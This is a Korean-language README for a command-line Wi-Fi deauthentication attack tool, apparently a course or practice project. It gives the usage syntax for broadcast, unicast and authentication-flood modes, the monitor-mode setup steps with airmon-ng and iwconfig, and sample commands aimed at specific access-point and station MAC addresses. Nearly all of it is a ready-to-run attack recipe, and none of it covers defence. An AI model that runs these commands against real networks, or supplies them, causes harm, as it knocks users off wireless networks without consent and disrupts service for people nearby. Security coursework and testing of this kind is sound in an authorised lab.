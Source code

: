 # Deauth Attack
### 802.11 Wireless LAN 환경에서 Deauth Attack을 수행하는 프로그램
- WAP2 환경에서 동작합니다.
- Auth, Unicast Deauth, Broadcast Deauth 3가지 모드가 있습니다.

## Usage
- syntax : deauth-attack [interface] [ap mac] [[station mac] [-auth]]
- sample : deauth-attack mon0 00:11:22:33:44:55 66:77:88:99:AA:BB
  - [ap mac]까지만 명시되는 경우에는 AP broadcast frame을 발생
  - [station mac]까지 명시되는 경우에는 AP unicast, Station unicast frame을 발생
  - -auth 옵션이 주어지면 deauthentication이 아닌 authentication으로 공격

## Before Execute
```
sudo ifconfig wlan0 down
sudo iwconfig wlan0 mode monitor
sudo airmon-ng check kill
sudo airodumpo-ng wlan0 채널 정보 및 BSSID 확인
sudo airmon-ng start wlan0 6
//sudo iwconfig wlan0 channel 6 #
//sudo ifconfig wlan0 up
```
## Sample
- ```sudo ./deauth-attack wlan0 00:0A:F5:E7:92:50```
- ```sudo ./deauth-attack wlan0 00:0A:F5:E7:92:50 9c:28:b3:f0:70:3d```
- ```sudo ./deauth-attack wlan0 00:0A:F5:E7:92:50 9c:28:b3:f0:70:3d -auth```

## Reference
[report deauth attack](https://gitlab.com/gilgil/sns/-/wikis/deauth-attack/report-deauth-attack)
